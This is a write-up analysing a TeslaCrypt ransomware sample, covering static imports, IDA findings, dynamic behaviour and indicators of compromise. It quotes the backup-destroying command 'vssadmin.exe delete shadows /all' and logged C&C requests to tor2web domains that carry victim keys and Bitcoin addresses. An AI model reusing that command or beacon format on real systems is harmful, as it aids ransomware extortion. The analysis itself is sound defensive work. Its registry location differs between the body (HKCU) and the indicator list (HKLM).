

# **TeslaCrypt Ransomware Analysis** 
 

## **I. Introduction**

The sample that I will analyze is `Teslacript`. An early `TeslaCrypt` sample was uploaded to the VirusTotal analysis service on November 11, 2014, but `TeslaCrypt` was not widely distributed until early March 2015. The `TeslaCrypt` operators mimicked `CryptoLocker` in the warning screen shown to victims. This malware targeted 185 file extensions related to 40 different games.  Newer variants of `TeslaCrypt` were not focused on computer games alone but also encrypted Word, PDF, JPEG and other files. In all cases, the victim would then be prompted to pay a ransom of $500 worth of bitcoins in order to obtain the key to decrypt the files.

In May 2016, the developers of TeslaCrypt shut down the ransomware and released the master decryption key, thus bringing an end to the ransomware. After a few days, ESET released a public tool to decrypt affected computers at no charge.

The sample that I get is from [here](https://github.com/kh4sh3i/Ransomware-Samples)

## **II. Static Analysis**

### 1.  HashCalc



Hash properties:

`MD5`: 209a288c68207d57e0ce6e60ebf60729

`SHA1`: e654d39cd13414b5151e8cf0d8f5b166dddd45cb

`SHA256`: 3372c1edab46837f1e973164fa2d726c5c5e17bcb888828ccd7c4dfcc234a370

### 2.  Detect It Easy

This malware is a PE32 file and is written in C/C++ programming language. This malware target Windows machine.



Looking at the entropy, this malware is 80% unpacked. However, with a lot of imports, we can certainly that this malware is unpacked.



**Import:**

Full list of imports can be found [here](./doc/ImportTable.md)

There are some interesting functions that I want to point out:

- `GetLogicalDriveStringsW`, `GetDriveTypeA`, `FindFirstFileW`, `FindNextFileW`, `FindClose`: These functions suggest that this malware is scanning for files on the victim's computer.
-   `InternetOpenA`, `InternetConnectA`, `HttpOpenRequestA`, `HttpSendRequestA`, `InternetReadFile`, `InternetCloseHandle`: These functions suggest that this malware is communicating with the C&C server.
-   `CreateFileW`, `CreateFileA`, `WriteFile`, `CloseHandle`: These functions suggest that this malware is writing the encrypted files to the victim's computer.
-   `RegOpenKeyExW`, `RegCreateKeyExW`, `RegSetValueExW`, `RegCloseKey`: These functions suggest that this malware is modifying the registry.
-   `ShellExecuteW`, `ShellExecuteExW`: These functions suggest that this malware is executing other programs.
-   `Sleep`: This function suggests that this malware does not do anything for the certain amount of time.
-   `IsDebuggerPresent`: This function suggest that this malware is checking if it is being debugged.
-   `CreateMutexW`: This function suggest that this malware is checking if it is already running.
-   `CreateProcessW`, `CreateProcessA`: This function suggest that this malware is creating a new process.
-   `TerminateProcess`: This function suggest that this malware is terminating some processes.

**Strings:**

Full output of strings command can be found [here](./doc/Strings.txt)

### 2.  PEiD

Using plugin `Krypto Analyzer` of PEiD, we can see that this malware's encryption algorithm may be Elliptic Curve Cryptographic (ECC) based on the `secp256k1` curve which is used in Bitcoin, base64 encoding, FORK-256, RIPEMD-160, SHA-1, SHA256 for hashing.

### 3.  IDA

The ransomware deletes the shadow copies of the victim's computer. 

It creates a mutex with value 'System1230123' to prevent multiple instances of the ransomware from running at the same time.

Looks like this malware is sending a request to the C&C server with the parameter `Subject, key, addr, files, size, version, date, version, OS, ID, subid, gate`



We see three requests parameters with 3 Subject: Ping, Crypted, and Payment. The ping request may signal a new infection. The Crypted request may signal that the ransomware has encrypted files. The Payment request may signal that the victim attempts to pay the ransom.

This malware terminates some processes that may interfere with the malware such as:

-   taskmgr: Task Manager
-   regedit: Registry Editor
-   cmd.exe: Command Prompt
-   procexp: Process Explorer
-   msconfig: System Configuration



This malware creates a registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` with value `crypto13` to run a program at startup.

For encryption, this malware uses the GetLogicalDriveStrings() API function to enumerate storage on the system's lettered drives (C:\\). The GetDriveType() API call then selectively targets DRIVE_FIXED (`DriveTypeW == 3`) drives (e.g., hard disks, solid-state drives (SSDs)) and DRIVE_REMOTE (`DriveTypeW == 4`) drives (e.g., mapped network shares). 



The FindFirstFile() and FindNextFile() API calls are then used recursively to enumerate files on the target drives.

Finally, the malware encrypts the files and then adds the extension `.ecc` to the encrypted files. This malware targets a wide range of extensions ([here](./doc/extension.txt))



Additionally, we can see that there are three WriteFile() API calls to write the encrypted files to the victim's computer. The first one write 16 bytes of data, the second one write the original file size, and the third one write the encrypted file.

## **III. Dynamic Analysis**

Before running the malware, I will use Regshot to take a current snapshot of the registry

[Here](test_ransom.mkv) is the clip of the malware running:

1.  Procmon

-   This program create another executable file `<random string>.exe` in `C:\\Users\\<Username>\\AppData\\Roaming` and start that executable file.

-   This new executable file is excecuting `vssadmin.exe delete shadows /all` to delete the shadow copies of the victim's computer.

-   Looking further, we can see that this new executable file is a copy of the original executable file. This executable file is changing a lots of files.

2.  Regshot

-   This program is creating a registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` with name `crypto13` and value `C:\\Users\\<Username>\\AppData\\Roaming\\<random string>.exe` to run a program at startup. This will make the malware run at startup.

3.  Looking at the basic behavior of the malware

-   In the desktop, the background image is changed to a ransom note image, the new window box pops up and display ransom note.



-   Simultaneously, three new files are created in Desktop:
    -   `CryptoLocker`: This is the window box that mention above.

    

    -   `HELP_TO_DECRYPT_YOUR_FILES.txt`: This is the ransom note in text file.

    

    -   `HELP_TO_DECRYPT_YOUR_FILES.bmp`: This is the ransom note in image.

    

-   Looking into `C:\\Users\\<Username>\\AppData\\Roaming`, we can see that this three new files are created.

    

    -   `<random string>.exe`: This is the copy of the original ransomware.

    

    -   `key.dat`:

    

    -   `log.html`: This is the log file that contains the list of encrypted files.

    

-   All target files are encrypted with the extension `.ecc`.

    

-   Here are the file before and after encryption.

    

    

-   We can see that 4 bytes after the first 16 bytes of the encrypted file are the original file size.

    

    

4.  InetSim

-   Full details of the log can be found [here](./doc/InetSim.txt)

-   The malware is sending a request to the those domains:

    -   7tno4hib47vlep5o.tor2web.org
    -   7tno4hib47vlep5o.tor2web.blutmagie.de
    -   7tno4hib47vlep5o.tor2web.fi

-   For each domain, firstly, the malware is sending a request with the parameter `Subject=Ping` to check if the domain is alive.

``HTTPS connection, method: GET, URL: https://7tno4hib47vlep5o.tor2web.org/state.php?U3ViamVjdD1QaW5nJmtleT04Nzc1M0FDQUYyRUY2ODcxMzVBMDM3MDk0MjU5REQwMzhFMzg5ODNFQUQ0RjkwQ0IzRDgxQkEzNTdBQjBDMTRDJmFkZHI9MTh0V2sydEVTUWQ4S280VVlFSnIyTmdYeGNHcE1pNXQyaSZmaWxlcz0wJnNpemU9MCZ2ZXJzaW9uPTAuMi42YSZkYXRlPTE2NzM4OTkzNzEmT1M9NzYwMSZJRD0xNiZzdWJpZD0wJmdhdGU9RzA=``

The request's parameter is base64 encoded. After decoding, we can see that the parameter is:

``Subject=Ping&key=87753ACAF2EF687135A037094259DD038E38983EAD4F90CB3D81BA357AB0C14C&addr=18tWk2tESQd8Ko4UYEJr2NgXxcGpMi5t2i&files=0&size=0&version=0.2.6a&date=1673899371&OS=7601&ID=16&subid=0&gate=G0``

-   Secondly, the malware is sending a request with the parameter `Subject=Crypted` after the victim's file system has been fully encrypted.

``HTTPS connection, method: GET, URL: https://7tno4hib47vlep5o.tor2web.org/state.php?U3ViamVjdD1DcnlwdGVkJmtleT04Nzc1M0FDQUYyRUY2ODcxMzVBMDM3MDk0MjU5REQwMzhFMzg5ODNFQUQ0RjkwQ0IzRDgxQkEzNTdBQjBDMTRDJmFkZHI9MTh0V2sydEVTUWQ4S280VVlFSnIyTmdYeGNHcE1pNXQyaSZmaWxlcz04NDcmc2l6ZT0yNzgmdmVyc2lvbj0wLjIuNmEmZGF0ZT0xNjczODk5NDg5Jk9TPTc2MDEmSUQ9MTYmc3ViaWQ9MCZnYXRlPUcw``

The request's parameter is base64 encoded. After decoding, we can see that the parameter is:

``Subject=Crypted&key=87753ACAF2EF687135A037094259DD038E38983EAD4F90CB3D81BA357AB0C14C&addr=18tWk2tESQd8Ko4UYEJr2NgXxcGpMi5t2i&files=847&size=278&version=0.2.6a&date=1673899489&OS=7601&ID=16&subid=0&gate=G0``

-   The domain `34r6hq26q2h4jkzj.tor2web.fi` is the domain for decryption.

-   When attempting to pay for the ransomware, the malware firstly makes an API call to `https://bitcoin.toshi.io/api/v0/addresses/18tWk2tESQd8Ko4UYEJr2NgXxcGpMi5t2i`. It probably checks if the ransom has been paid to the bitcoin address *18tWk2tESQd8Ko4UYEJr2NgXxcGpMi5t2i*. However, when checking the address, we can see that the address [has never been used](https://www.blockchain.com/explorer/addresses/btc/18tWk2tESQd8Ko4UYEJr2NgXxcGpMi5t2i). This may suggest that the malware generates unique bitcoin address for each infected computer .

-   Finally, the malware is sending a request to the domain `7tno4hib47vlep5o.tor2web.blutmagie.de` with the parameter `Subject=Payment`.

``HTTPS connection, method: GET, URL: https://7tno4hib47vlep5o.tor2web.blutmagie.de/state.php?U3ViamVjdD1QYXltZW50JnJlY292ZXJ5X2tleT0xMEVFQTc1OTVFNURFRDBFMjZCNDA2RTEyODRCM0JBMDcxQzcxMzA3RDVBOUYyMTk2N0IwMzc0NjRDMDEwMDAwJmFkZHI9MTh0V2sydEVTUWQ4S280VVlFSnIyTmdYeGNHcE1pNXQyaSZmaWxlcz0wJnNpemU9MCZ2ZXJzaW9uPTAuMi42YSZkYXRlPTE2NzM5MDgxODEmT1M9NzYwMSZJRD0xNiZzdWJpZD0w``

The request's parameter is base64 encoded. After decoding, we can see that the parameter is:

``Subject=Payment&recovery_key=10EEA7595E5DED0E26B406E1284B3BA071C71307D5A9F21967B037464C010000&addr=18tWk2tESQd8Ko4UYEJr2NgXxcGpMi5t2i&files=0&size=0&version=0.2.6a&date=1673908181&OS=7601&ID=16&subid=0``

**Here is the list of parameters of the request:**

-   Subject — represents the command verb of the request; may be one of three options:
    -   Ping — signals a new infection to the server
    -   Crypted — sent when the victim's file system has been fully encrypted
    -   Payment — sent if the victim attempts to pay using the displayed dialog window
-   key — modified version of the encryption key used to destroy files
-   recovery_key — modified version of the encryption key used to recover files
-   addr — unique Bitcoin address generated on the victim's system to send ransom payments
-   files — total number of encrypted files
-   size — total size, in megabytes, of encrypted files
-   version — TeslaCrypt malware version
-   date — local time when the command was sent, in Unix epoch time format
-   OS — build number of the operating system
-   ID — identification number
-   subid — secondary identification number; may be combined with ID to implement an affiliate program
-   gate — indicates which web-to-Tor gateway transmitted the request

## **IV. Indicators of Compromise**

**Hashes:**

-   `MD5`: 209a288c68207d57e0ce6e60ebf60729

-   `SHA1`: e654d39cd13414b5151e8cf0d8f5b166dddd45cb

-   `SHA256`: 3372c1edab46837f1e973164fa2d726c5c5e17bcb888828ccd7c4dfcc234a370

**Registry:**

-   `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`: Name: `crypto13`, Value: `%AppData%\<random string>.exe`

**Mutex:**

-   System1230123

**Files:**

-   %AppData%\<random string>.exe
-   %AppData%\key.dat
-   %AppData%\log.html
-   CryptoLocker
-   HELP_TO_DECRYPT_YOUR_FILES.txt
-   HELP_TO_DECRYPT_YOUR_FILES.bmp

**Domains:**

-   7tno4hib47vlep5o.tor2web.org
-   7tno4hib47vlep5o.tor2web.blutmagie.de
-   7tno4hib47vlep5o.tor2web.fi
-   34r6hq26q2h4jkzj.tor2web.fi
-   34r6hq26q2h4jkzj.tor2web.org
-   34r6hq26q2h4jkzj.onion

**Encrypted Files:** \*.ecc